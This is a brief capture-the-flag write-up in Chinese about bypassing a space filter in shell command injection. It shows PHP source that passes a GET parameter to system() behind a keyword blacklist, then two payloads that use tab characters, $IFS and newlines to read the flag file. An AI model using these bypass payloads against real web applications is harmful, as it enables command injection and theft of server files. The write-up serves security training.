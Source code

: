 # 知识点
shell内替换空格
### $IFS替换空格
# 思路
源码
```bash
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```bash
?c=tac%09fla?.php%0a %09 - 水平制表符
?c=echo$IFS`tac$IFS*`%0A
```
![image.png](./images/20231017_2350487719.png)
